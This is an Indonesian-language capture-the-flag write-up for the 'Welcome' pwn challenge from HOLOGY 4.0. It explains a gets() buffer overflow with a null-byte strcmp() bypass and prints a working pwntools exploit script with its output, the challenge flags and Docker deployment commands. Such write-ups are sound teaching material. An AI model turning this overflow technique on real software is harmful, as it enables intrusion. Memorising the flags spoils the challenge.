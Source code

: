 # Welcome (100 Pts)

## Deskripsi
Apakah soal ini sanity check? Hmm.. Aku tidak yakin kalau itu adalah flag asli

Author : Inlandsche

nc 13.214.13.126 31337

## Hint 
Tidak ada

## Proof of Concept
Pertama, lakukan analisa kode program dengan menggunakan software disassambler (`ghidra/IDA`) atau dengan `gdb`.
Program memiliki kelemahan pada fungsi `gets()`. Untuk mendapatkan flag, diharuskan melakukan overwrite terhadap dua variabel agar sesuai dengan keinginan program. Agar dapat melakukan overwrite, kita harus melakukan bypass fungsi `strcmp()` dengan menambahkan **null bytes** `\x00`.


Script python untuk menyelesaikannya

```
from pwn import *

p = process('./welcome')

strcmp = b"IsThisReal?"

# Address didapatkan dengan menggunakan gdb
# Address ini merupakan address dari string yang dibutuhkan 
competition = 0x40204a
glaf = 0x402054

# Perhitungan offset dapat dilakukan secara manual atau dengan pwn cyclic
offset_glaf = 28

payload = strcmp

# Byte kosong digunakan untuk bypass strcmp()
payload += b"\x00"
payload += b"a"*offset_glaf
payload += p64(glaf)
payload += p64(competition)


p.sendline(payload)
p.interactive()
```

Output dari script tersebut

```
[*] '/home/inlandsche/CySec/Hology/Hology Soal/Welcome/welcome'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[x] Starting local process '/home/inlandsche/CySec/Hology/Hology Soal/Welcome/welcome'
[+] Starting local process '/home/inlandsche/CySec/Hology/Hology Soal/Welcome/welcome': pid 9588
[*] Switching to interactive mode
Selamat datang di HOLOGY 4.0

hology4{w3lc0m3_t0_hology}

Nice!
hology4{0v3Rwr1te_iz_ez_y4h4h4}
[*] Process '/home/inlandsche/CySec/Hology/Hology Soal/Welcome/welcome' stopped with exit code 0 (pid 9588)
[*] Got EOF while reading in interactive
```

<details>
<summary>Flag : </summary>
hology4{0v3Rwr1te_iz_ez_y4h4h4}
</details>

## Referensi
Soal Angstrom CTF (sanity)

## Deployment

```
docker build -t welcome .
docker run -d --name=welcome -p 31337:31337/tcp welcome
crontab /path/to/crontab
```

## Flag
<details>
<summary>Tekan untuk melihat flag</summary>

    hology4{w3lc0m3_t0_hology}

</details>

